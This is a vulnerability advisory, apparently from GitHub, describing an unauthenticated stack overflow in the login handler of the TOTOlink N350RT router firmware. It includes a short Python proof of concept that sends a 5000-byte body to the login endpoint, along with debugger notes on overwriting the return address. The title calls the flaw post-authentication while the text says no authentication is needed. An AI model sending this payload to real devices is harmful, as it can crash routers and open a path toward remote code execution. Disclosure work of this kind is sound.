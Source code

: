 # TOTOlink N350RT(V9.3.5u.6139_B20201216) router has post-authentication buffer overflow vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/206/ids/36.html

**This product is on sale**: https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/206.html
## Affected Version
V9.3.5u.6139_B20201216
## Vulnerability Analysis
The following image displays the code for a stack overflow vulnerability in the `main` function of `cstecgi.cgi`. When an attacker accesses `http://ip/cgi-bin/cstecgi.cgi?action=login` using the POST method, all data in the `HTTP BODY` will be read into `v8` and concatenated to the local variable `v33` using the sprintf function. Due to the lack of length validation by the developer on `v8`, sending an overly long message by the attacker will eventually cause a stack overflow in the program. As this code segment resides at the beginning of the main function, the attacker does not need to undergo any form of authentication.
![Vulnerability](./ida.png)
## POC
```python
import requests
def poc():
    payload = "A"*5000
    response = requests.post('http://192.168.5.12/cgi-bin/cstecgi.cgi?action=login', data=payload)
    print(response.status_code)
poc()
```
I set a breakpoint at `0x425850` (the next instruction after the stack overflow occurred) in `cstecgi.cgi`. I observed that the region on the stack originally meant for holding the return address was overwritten with `AAAA`, confirming the occurrence of a stack overflow. If it's possible to leak the libc base address, it might even lead to achieving Remote Code Execution (RCE).
![gdb](gdb.png)
![breakpoint](breakpoint.png)